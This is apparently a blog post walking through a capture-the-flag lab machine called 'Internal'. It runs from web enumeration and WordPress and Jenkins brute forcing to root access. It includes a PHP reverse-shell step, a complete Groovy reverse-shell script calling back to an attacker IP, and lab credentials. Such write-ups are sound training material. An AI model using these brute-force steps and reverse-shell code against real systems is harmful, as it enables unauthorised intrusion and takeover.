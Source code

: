 +++
date = '2024-11-18T21:56:18+01:00'
draft = false
title = 'Internal Walkthrough'
+++

So lets deploy the machine and start enumerating.

![internal1](/images/internal/0.png)

We can see ssh open on port 22 and a http web server on port 80. If we enter on 10.10.199.61 we see Apache2 Ubuntu Default Page.

![](/images/internal/1.png)

After some directory enumeration, we find the following:

```
/blog

/phpmyadmin

/javascript

/wordpress/wp-login.php
```

![](/images/internal/2.png)



It is necessary to add internal.thm to our /etc/hosts file to navigate through the website.

Since we know admin is a user because he has a post on the website, we can brute force the login page using wpscan and rockyou.txt for the password.

![](/images/internal/3.png)

So we found admin:my2boys as valid credentials now we can log in.

Now if we go to Appearence we can see some php files, let's create edit them and add our php reverse shell. Later with a nc listener we can get access. [http://internal.thm/blog/wp-content/themes/twentyseventeen/search.php](http://internal.thm/blog/wp-content/themes/twentyseventeen/search.php)

![](/images/internal/4.png)

Now just access link of the edited php file and we are in.

Let's upgrade our shell

`python -c 'import pty; pty.spawn("/bin/bash")'`

Using linpeas we find some interesting information. wordpress:wordpress123 credentials

some phpmyadmin credentials we can check on config file.

![](/images/internal/5.png)

`phpmyadmin:B2Ud4fEOZmVq`

Let's go into phpmyadmin page which we find before with directory enumeration and check what is in.

Nothing interesting.

Enumerating a little bit more trying to locate .txt for flags we find intersting file.

![](/images/internal/6.png)

aubreanna:bubb13guM!@#123 Now we can connect through ssh.

Once in we see a txt file with a jenkins server which is not reachable from our machine. We need to do SSH tunneling to forward that server so we are able to reach it from our machine.

![](/images/internal/7.png)

Now from port 3333 we can access the server.

![](/images/internal/8.png)

Now we use hydra to burteforce admin user on jenkins.

![](/images/internal/9.png)

We got credentials!! admin:spongebob

Now on jenkins at /script we can run Goovy scripts and get a reverse 
shell. 
```
String host="10.11.18.85";

int port=6666;

String cmd="/bin/sh";

Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed())

{while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while( si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try

{p.exitValue();break;}catch (Exception e){\}};p.destroy();s.close(); With a netcat listener we get access.
```

So once in the system we use find command to locate files like we did to see if we get something interesting.

/opt/note.txt seems similar to previous one.

We found root credentials on the file!! root:tr0ub13guM!@#123&#x20;

Now we can ssh as root and get last flag.
